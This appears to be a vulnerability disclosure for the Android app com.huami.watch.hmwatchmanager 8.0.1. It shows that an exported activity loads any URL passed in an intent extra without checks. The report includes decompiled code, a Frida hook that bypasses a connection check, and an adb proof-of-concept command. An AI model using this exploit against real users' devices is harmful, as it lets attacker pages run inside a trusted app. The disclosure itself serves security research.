

# com.huami.watch.hmwatchmanager

com.huami.watch.hmwatchmanager contains an export component JsSettingActivity, which allows an attacker to send a malicious URL and open it directly without any filtering or checking.

- package: com.huami.watch.hmwatchmanager
- version: 8.0.1

```xml
<activity android:theme="@style/FullScreenTheme" android:name="com.huami.applet.setting.JsSettingActivity" android:exported="true" android:launchMode="singleTask" android:screenOrientation="portrait">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="zepp" android:host="auth-return"/>
    </intent-filter>
</activity>
```

```java
package com.huami.applet.setting;
public final class JsSettingActivity extends AppCompatActivity {
    @Override
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.applet_activity_setting);
        m137235R1();
        m137221f2(this);
        C59973c.m26748b().m26735o(this);
        getWindow().getDecorView().setSystemUiVisibility(8192);
        m137229X1();  // connection check
        m137225b2();  // loadurl
    }

    public final void m137229X1() {
        AbstractC60136b c60151l;
        AbstractC24641x m54387b = C44536a.f111890a.m54387b();
        boolean isConnected = m54387b != null ? m54387b.isConnected() : false;
        C73904a.m2827o("applet_core", new C12466c(isConnected));
        C73904a.m2827o("applet_core", C12467d.f23863a);
        if (isConnected) {
            c60151l = C60146i.f141578a;
        } else {
            m137220g2();    // show alert dialog, hook to bypass
            c60151l = new C60151l(C34840e0.f95609a);
        }
        if (c60151l instanceof C60146i) {
            AlertDialogFragment alertDialogFragment = this.f23854b;
            if (alertDialogFragment != null) {
                alertDialogFragment.dismissAllowingStateLoss();
            }
        } else if (!(c60151l instanceof C60151l)) {
            throw new C34851l();
        } else {
            ((C60151l) c60151l).m26487a();
        }
    }

    public final void m137225b2() {
        Intent intent = getIntent();
        String stringExtra = intent != null ? intent.getStringExtra("webUrl") : null;
        if (stringExtra != null) {
            m137232U1().loadUrl(stringExtra);
        }
        m137228Y1(C60138d.m26511e(this), getString(R.string.applet_net_error));
    }
```

Frida script to bypass connection check as I don't have a watch:

```js
Java.perform(function () { 
    var SomeClass = Java.use('com.huami.applet.setting.JsSettingActivity'); 
    SomeClass.g2.implementation = function(){
        console.log('connection check method is invoked');
    };
});
```

PoC:

```sh
$ adb shell am start -n com.huami.watch.hmwatchmanager/com.huami.applet.setting.JsSettingActivity -e "webUrl" "https://www.windows93.net"
```


